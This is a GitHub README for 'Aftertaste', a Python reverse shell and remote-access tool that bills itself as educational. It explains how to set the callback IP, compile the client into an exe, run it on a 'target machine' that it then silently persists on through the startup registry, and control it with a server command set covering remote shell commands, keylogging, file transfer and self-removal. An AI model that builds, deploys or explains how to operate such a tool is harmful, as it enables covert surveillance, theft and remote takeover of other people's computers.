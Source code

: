 # Aftertaste

Aftertaste is a python-based reverse shell with numerous tools for educational purposes. It allows arbitrary command execution of a client's machine, keystroke logging, and registry edits.

![alt text](img/client_server.png)

![alt text](img/working_demo.gif)

# Features

- Arbitrary command execution
- AES-128 bit key encryption between client and server packets
- Automatically places client into the startup registry on first launch
- Windows registry key manipulation
- Keystroke logging
- Encrypted file transfer between server and client

### Environment
| Operating System | Client | Server |
| ------ | ------ | ------ |
| Windows 10 | ✔ | ✔|
| Windows 8.1 | ✔ | ✔ |
| Ubuntu | ✘ | ✔|

Python 3.6+

### Installation

Install [python 3.6](https://www.python.org/downloads/release/python-369/) to be able to run the server

Install the python dependencies from the master branch

```sh
$ pip install -r requirements.txt
```

# Usage
### Running the client
Edit ./settings/keys.py to change the server's ip address and password

>CONN_IP_ADDRESS = "127.0.0.1"

>CONN_PASSWORD = "password"

>CONN_PORT=5000

Compile client.py on windows by running build.bat
```sh
$ .\build.bat
```
The exe file will be in the dist folder

Run the exe on the target machine

Running the exe file the first time will copy itself into the folder:
>C:\\Users\\%user%\\AppData\\Local\\


### Server usage
Run server.py using python
```sh
$ python3 server.py
```

Once a client successfully connects to the server, list all current open connections using:
```sh
LST
```
Choose a connection 
```sh
CHS 0
```
Issue command line commands using
```sh
CMD [shell command]
```

### Server Commands
```
CMD :param:                         - Executes a windows shell command on a target's machine

EXE :param:                         - Executes pre-created features. Example programs:
    keylogger :param1:              - Starts the keylogger.
                                    - param1 is the filename to store the data
    placestartup :param1: :param2:  - Places a file into the startup registry (So it will run on startup)
                                    - param1 is the registry key name
                                    - param2 is the path to the file
    removestartup :param1:          - Removes the file from the startup registry
                                    - param1 is the registry key

FTP :param:                         - Transfers a file from the server to the target machine
                                    - param is the path to the file relative to the current directory

RFTP :param:                        - Transfer a file from the client to the server
                                    - param is the path of the file relative to the client directory
DEL                                 - Deletes the exe and removes the windows registry key from the target machine

EXT                                 - Turns off the client from the target machine

LST                                 - List all current client connections that has connected to the server

CHS :param:                         - Choose the current connection
                                    - param is the number associated with the connection (Use LST to list connections)

SGN                                 - Signs the server out from the client (breaks the connection)

CHK                                 - Checks the server if it currently has a chosen connection

HLP                                 - Lists the help
```

![alt text](img/server_usage.gif)